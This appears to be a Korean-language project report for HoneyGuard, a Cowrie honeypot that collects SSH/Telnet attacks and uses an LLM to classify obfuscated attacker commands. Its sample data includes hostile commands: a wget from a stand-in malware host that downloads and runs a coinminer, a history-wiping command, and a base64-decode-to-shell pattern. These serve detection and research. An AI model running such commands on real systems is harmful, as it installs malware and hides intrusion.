


# [기획/검증 보고서] 허니팟 기반 보안 위협 탐지 시스템 (HoneyGuard)
**실제 인터넷 공격 수집 · AI 런타임 시맨틱 분석 · 실시간 관제 시각화 CTI 플랫폼**

---

## 1. 프로젝트 개요 및 배경

### 1.1 배경 및 통계 지표
* **사이버 침해사고의 급격한 증가**: 과학기술정보통신부 및 한국인터넷진흥원(KISA) 발표에 따르면, 2025년 사이버 침해사고 신고 건수는 **2,383건으로 전년(1,887건) 대비 26.3% 급증**함 (일평균 약 6.5건 이상).
* **무차별 스캔 자동화 공격의 일상화**: 특정 대기업만을 겨냥한 표적 공격 외에도, 전 세계 IPv4 주소 대역을 24시간 무차별 스캐닝하여 기본 자격증명(Default Credentials) 및 알려진 취약점을 자동 침투하는 봇넷 활동이 보편화됨.
* **기존 학술/교육용 데이터셋의 한계**: KDD99, CICIDS 등 전통적 연구 데이터셋은 박제된 가상 트래픽에 기반하여, 실제 야생(Wild) 인터넷 환경에서 유입되는 변종 공격 양상 및 실시간 위협 트렌드를 반영하지 못함.

### 1.2 핵심 문제 정의 (Core Problem Statement)
1. **정상 접속과 비정상 침투의 구분 한계**: 탈취된 계정 정보로 로그인한 공격자는 시스템 로그상 정상 사용자로 위장하므로, 침해 발생 즉시 인지하기 어려움.
2. **비정형 로그 분석 병목**: 단일 서버에서도 일일 수만 건의 접속 시도 로그가 발생하지만, 전담 인력 부재로 인해 로그가 방치됨.
3. **공격 명령어 난독화(Obfuscation)**: 침투 후 실행되는 쉘 스크립트가 Base64 인코딩, 환경변수 치환 등으로 변형되어 기존 정적 시그니처 탐지 장비로는 실행 의도 파악이 불가함.

---

## 2. 기술적 사용자 정의 (Target User Profile)

본 시스템은 막연한 '중소기업'이나 '연구실'이 아닌, **명확한 기술적 인프라 환경과 역할을 가진 실무자**를 타깃으로 정의함.

### 2.1 주 사용자 (Primary Persona)
> **"AWS 등 퍼블릭 클라우드에 Linux 서버를 운영 중이나, ISMS 의무 인증 대상이 아니어서 고가 보안관제(SOC/SIEM) 솔루션을 구축하지 못해 인프라 관리와 보안을 겸임하는 1인 DevOps / 백엔드 엔지니어"**

* **조직 규모 및 환경**: 10~50인 규모의 IT 스타트업 또는 소프트웨어 개발 조직.
* **인프라 특성**: 외부 서비스 제공을 위해 SSH(22), 웹 포트 등을 공인 IP에 노출하고 있어 상시 자동화 봇넷의 표적이 됨.
* **현실적 병목(Pain Points)**:
  * 본업(서비스 개발 및 배포)으로 인해 `/var/log/auth.log` 등 시스템 보안 로그를 수동 분석할 시간적 여유가 전무함.
  * 복잡한 정규식 기반 상관분석 룰을 작성할 전담 보안 엔지니어가 부재함.
  * 침해가 발생한 이후(랜섬웨어 감염, 비정상 트래픽 발생 등)에야 인지하는 사후 수습 구조에 머물러 있음.

### 2.2 부 사용자 (Secondary Persona)
> **"최신 인터넷 야생 공격 전술(TTP)과 난독화 악성 스크립트 트렌드를 연구·학습하는 보안 연구원 및 CTI(Cyber Threat Intelligence) 분석가"**

---

## 3. 프로젝트 타당성 및 가치 (Feasibility & Value Proposition)

| 구분 | 내용 | 입증 근거 |
| :--- | :--- | :--- |
| **경제적 타당성** | 엔터프라이즈 솔루션 대비 운영 비용 **99% 절감** | • 상용 SIEM(Splunk, Datadog 등)의 GB당 과금 구조 탈피<br>• 오픈소스 Cowrie + Supabase Free Tier + Claude Haiku Batch API 결합<br>• 고유 패턴 중복 제거를 통해 일일 API 비용 수십~수백 원 수준 유지 |
| **보안 실무적 타당성** | **사후 수습**에서 **선제적 사전 예방**으로 패러다임 전환 | • 실제 업무 데이터가 없는 격리된 미끼 서버(허니팟)를 통해 사전 관찰<br>• 관측된 공격자 IP 및 최다 공격 비밀번호(Top 10)를 운영 서버 방화벽 및 계정 정책에 선제 반영 |
| **기술적 구현 타당성** | 로컬 및 엔지니어링 수준 검증 완료 | • Python 3.11 기반 ETL 파서(`parse_pipeline.py`) 및 멱등성(Upsert) 검증 완료<br>• 단일 스크립트로 파싱, 정규화, DB 적재 파이프라인 로직 동작 검증 |

---

## 4. 기존 기술 대비 기술적 차별점 (Differentiation)



### 4.1 시그니처 탐지 한계 극복: LLM 런타임 시맨틱(Semantic) 분석
* **기존 한계**: 공격자가 `echo "Y2Q...=" | base64 -d | sh` 와 같이 명령어를 인코딩하거나 변수를 치환하면, 사전 등록된 키워드와 일치하지 않아 정적 룰셋이 무력화됨.
* **본 시스템의 차별점**: LLM(Claude Haiku)이 명령어의 문자열 형태가 아닌 **문맥적 실행 의미(Semantic Context)**를 분석함. 난독화된 쉘 스크립트의 실행 흐름을 역추적하여 **6종 의도(코인채굴, 봇넷가담, 정찰, 자격증명탈취, 랜섬웨어, 기타)**와 **심각도(1~5)**를 자동 산출함.

### 4.2 대규모 트래픽 비용 최적화: `cmd_hash` 정규화 클러스터링
* **기존 한계**: 동일한 봇넷이 수천~수만 번 동일 명령어를 반복 주입할 경우, 매 요청마다 AI API를 호출하면 비용이 기하급수적으로 폭증함.
* **본 시스템의 차별점**:
  1. 원본 명령어에서 대상 IP, 임의 난수 파일명, 공백 등을 규칙 기반으로 치환(**정규화**).
  2. 정규화된 명령어 시퀀스를 해싱하여 고유 식별 키인 **`cmd_hash`** 생성.
  3. 동일 `cmd_hash`를 가진 세션군 중 **대표 1건만 선별하여 Claude Batch API로 일괄 분석** (일반 API 대비 50% 비용 할인).
  4. 도출된 분석 결과를 동일 군집 전체에 일괄 매핑하여 **분석 비용을 99% 이상 절감**.

### 4.3 다차원 비교 분석 축 (Cross-Comparison CTI)
* **지역별(Region) 비교**: AWS 서울 리전 vs 버지니아 리전 듀얼 센서를 동시 운영하여, 글로벌 봇넷의 전역 무차별 스캔 여부와 지리적 표적화 차이를 실증.
* **프로토콜별(Protocol) 비교**: 서버 인프라를 노리는 SSH(22) 공격과 IoT 임베디드 기기를 노리는 Telnet(23) 공격의 자격증명 패턴, 악성 페이로드, 발원지 ASN(클라우드 인프라 vs 가정용 ISP) 차이를 비교 분석.

---

## 5. 시스템 아키텍처 및 데이터 파이프라인



---

## 6. 코드 레벨 공격 탐지 메커니즘 및 검증 결과

본 시스템은 `collector/parse_pipeline.py`를 통해 Cowrie 원시 로그에서 공격 행위를 정확히 감지하여 분기함.

### 6.1 코드 레벨 탐지 지점
```python
# [위치 1: 84~91행] 무차별 대입(Brute Force) 공격 판정
elif eid in ("cowrie.login.success", "cowrie.login.failed"):
    rows["auth_attempts"].append(key | {
        "eventid": eid,
        "username": ev.get("username"),
        "password": ev.get("password"),
        "success": eid == "cowrie.login.success",
        "ts": ts,
    })

# [위치 2: 92~93행] 침투 후 악성 명령어 실행 공격 판정
elif eid in ("cowrie.command.input", "cowrie.command.failed"):
    rows["commands"].append(key | {"eventid": eid, "input": ev.get("input") or "", "ts": ts})

# [위치 3: 94~100행] 악성 바이너리 파일 다운로드 시도 감지
elif eid == "cowrie.session.file_download":
    rows["downloads"].append(key | {"eventid": eid, "url": ev.get("url"), ...})
```

### 6.2 로컬 드라이 런 검증 데이터 (`collector/samples/sample_cowrie.json`)
로컬 환경에서 실제 공격 시나리오 5개 라인을 처리하여 검증을 완료함:
* `cowrie.session.connect`: 공격자 IP(`185.220.101.5`)의 SSH 접속 1건 ➔ **`sessions_open: 1`**
* `cowrie.login.failed` & `success`: `admin/123`(실패) 및 `root/password123`(성공) 자격증명 시도 ➔ **`auth_attempts: 2`**
* `cowrie.command.input`: 
  1. `cd /tmp; wget http://malware.com/coinminer; chmod +x coinminer; ./coinminer` (코인 채굴기 설치/실행)
  2. `history -c` (흔적 삭제)  
  ➔ **`commands: 2`**
* **검증 결과**: 단일 실행으로 파싱 및 멱등성(동일 파일 중복 적재 방지) 구조가 결함 없이 동작함을 확인.

---

## 7. 핵심 기술 용어 정리 (Glossary)

* **허니팟 (Honeypot)**: 침해를 유도하여 공격자의 행위, 기술, 도구를 관찰하기 위해 의도적으로 보안 취약성을 노출한 격리된 디코이(Decoy) 시스템.
* **Cowrie**: SSH 및 Telnet 상호작용을 에뮬레이션하여 무차별 대입 공격 및 쉘 명령어 입력 이벤트를 상세 JSON 규격으로 기록하는 보안 도구.
* **난독화 (Obfuscation)**: 악성 스크립트의 실행 기능은 유지하되, 정적 시그니처 탐지 장비의 패턴 매칭을 회피하기 위해 코드를 인코딩·변형하는 기법.
* **시맨틱 분석 (Semantic Analysis)**: 정적 문자열 비교를 넘어, 실행 흐름과 의도(파일 다운로드, 권한 변경, 백그라운드 구동 등)의 문맥적 의미를 파악하는 기술.
* **멱등성 (Idempotency)**: 동일한 수집·파싱 작업을 다회 실행하더라도 데이터 중복이나 왜곡 없이 최초 실행과 동일한 상태를 유지하는 엔지니어링 특성.
* **CTI (Cyber Threat Intelligence)**: 수집된 원시 보안 이벤트를 정제·분석하여 관리자가 즉각적인 방어 정책에 반영할 수 있도록 체계화한 위협 지능 정보.
